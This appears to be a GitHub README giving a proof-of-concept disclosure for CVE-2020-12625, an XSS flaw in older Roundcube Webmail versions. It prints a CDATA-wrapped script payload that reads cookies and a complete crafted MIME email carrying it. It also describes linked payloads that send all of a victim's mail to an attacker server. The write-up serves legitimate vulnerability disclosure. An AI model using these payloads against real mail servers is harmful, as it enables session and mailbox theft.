

# CVE-2020-12625: Cross-Site Scripting (XSS) via Malicious HTML Attachment in Roundcube Webmail

A Cross-Site scripting (XSS) vulnerability exists in Roundcube versions before 1.4.4, 1.3.11 and 1.2.10.
<br/>
By leveraging the "\<![CDATA[...]]\>" XML element in a mail with a "text/html" attachment, an attacker can bypass the Roundcube script filter and execute arbitrary malicious JavaScript in the victim's browser when the malicious email is clicked.

### Vendor Disclosure:

The vendor's disclosure and patch of this vulnerability can be found [here](https://roundcube.net/news/2020/04/29/security-updates-1.4.4-1.3.11-and-1.2.10).

### Proof Of Concept:

By using "\<![CDATA[...]]\>", an attacker can use a "text/html" attachment that will result in an XSS when the victim opens the email.
<br/>
The XHTML content of a malicious file has the following form:
```
<label id="xss"><![CDATA[
<script type="text/javascript"> alert(document.location+"\n"+document.cookie); </script>
]]></label>
```

Now we are interested in creating a valid email with the above file. This can be achieved in multiple ways, but in this case, "[mpack](https://linux.die.net/man/1/mpack)" was used.
<br/>
<strong>Note:</strong> Because "mpack" does not support "text/html" formats, we use an "application/html" format which we later manually modify.
<br/>
The resulting email, containing the above XSS will have the following form:
```
Message-ID: <10597.1586954798@tester> Mime-Version: 1.0
Subject: XML HTML XSS
Content-Type: multipart/mixed; boundary="-"
 
This is a MIME encoded message. Decode it with "munpack"
or any other MIME reading software. Mpack/munpack is available via anonymous FTP in ftp.andrew.cmu.edu:pub/mpack/
--- 
Content-Type: text/html; name="xss.xml" Content-Transfer-Encoding: base64 Content-Disposition: inline; filename="xss.xml"
Content-MD5: u3TPnyqjJjkLsagJAZnTNg==

PGxhYmVsIGlkPSJ4c3MiPjwhW0NEQVRBWwo8c2NyaXB0IHR5cGU9InRleHQvamF2YXNjcmlw dCI+CmFsZXJ0KGRvY3VtZW50LmxvY2F0aW9uKyJcbiIrZG9jdW1lbnQuY29va2llKTsKPC9z
Y3JpcHQ+Cl1dPjwvbGFiZWw+Cg==

-----
```

We can then use "[sendmail](https://linux.die.net/man/8/sendmail.sendmail)" or other solutions to send the email to the victim. In this case the victim will be "guest@localhost".
<br/>
<br/>
If we view the attacker's terminal, the attack would look like this:


And the XSS will trigger when the victim clicks on the malicious email:



#### Implementing an "Advanced" JavaScript Payload

Expanding on this concept an attacker may employ advanced JavaScript attacks in order to exfiltrate and/or delete all the victim's mails. The corresponding JavaScript/HTML can be found in [here](JavaScript%20Payloads/get_all_mail.html) (the GET version) or [here](JavaScript%20Payloads/get_all_mail_POST.html) (the POST version, a bit more complicated to set up but can exfiltrate large files that would be too big for a GET Parameter).
<br/>
We repeat the same steps as above to send the malicious XSS payload.
<br/>
This XSS reads and sends the victim's mails, via base64 encoded HTTP GET or POST parameters, to an attacker-controlled server (in this case "127.0.0.1:8000").
<br/>
We consider the "Super Secret" email a legitimate email containing sensitive information that the attacker is interested in obtaining:


#### Result

When the victim clicks on the malicious mail ("Super XML HTML XSS"), all mails, including "Super Secret", will be sent to the attacker's server. By decoding the base64 message, the attacker can read the exfiltrated messages' content.


